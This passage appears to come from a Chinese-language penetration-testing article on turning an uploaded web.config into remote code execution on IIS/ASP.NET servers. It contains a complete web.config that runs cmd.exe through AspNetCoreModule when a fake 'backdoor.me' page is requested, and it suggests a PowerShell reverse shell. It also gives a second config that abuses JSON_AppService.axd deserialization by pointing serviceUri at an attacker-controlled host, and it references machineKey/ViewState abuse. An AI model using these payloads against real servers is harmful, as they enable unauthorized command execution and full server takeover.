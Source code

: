 #### 1.2 使用AspNetCoreModule运行命令

我们也可以使用ASP.NET核心模块运行命令，如下所示：

```plain
<?xml version="1.0" encoding="utf-8"?>
<configuration>
    <system.webServer>
      <handlers>
        <remove name="aspNetCore" />
         <add name="aspNetCore" path="backdoor.me" verb="*" modules="AspNetCoreModule" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="cmd.exe" arguments="/c calc"/>
    </system.webServer>
</configuration>
```

所述命令将通过浏览不需要存在于服务器上的`backdoor.me`页面来执行，这里可以使用`PowerShell`命令作为反向`shell`。

#### 1.3 使用系统秘钥

[https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/中所述，可以在\`web.config\`文件中设置\`machineKey\`元素，以滥用反序列化功能在服务器上运行代码和命令。](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/%E4%B8%AD%E6%89%80%E8%BF%B0%EF%BC%8C%E5%8F%AF%E4%BB%A5%E5%9C%A8%60web.config%60%E6%96%87%E4%BB%B6%E4%B8%AD%E8%AE%BE%E7%BD%AE%60machineKey%60%E5%85%83%E7%B4%A0%EF%BC%8C%E4%BB%A5%E6%BB%A5%E7%94%A8%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8A%9F%E8%83%BD%E5%9C%A8%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E8%BF%90%E8%A1%8C%E4%BB%A3%E7%A0%81%E5%92%8C%E5%91%BD%E4%BB%A4%E3%80%82)

#### 1.4 使用JSON\_AppService.axd

这是在`.NET Framework`中使用已知的反序列化问题在服务器上运行代码的一种方式。

在这种情况下，`web.config`文件如下所示：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.web.extensions>
        <scripting>
            <webServices>
                <authenticationService enabled="true" requireSSL="false" />  
            </webServices>
        </scripting>
    </system.web.extensions>

    <appSettings>
        <add key="aspnet:UseLegacyClientServicesJsonHandling" value="true" />
    </appSettings>

    <system.web>
        <membership defaultProvider="ClientAuthenticationMembershipProvider">
            <providers>
                <add name="ClientAuthenticationMembershipProvider" type="System.Web.ClientServices.Providers.ClientFormsAuthenticationMembershipProvider, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" serviceUri="http://attacker.com/payload?" />
            </providers>
        </membership>
    </system.web>
</configuration>
```
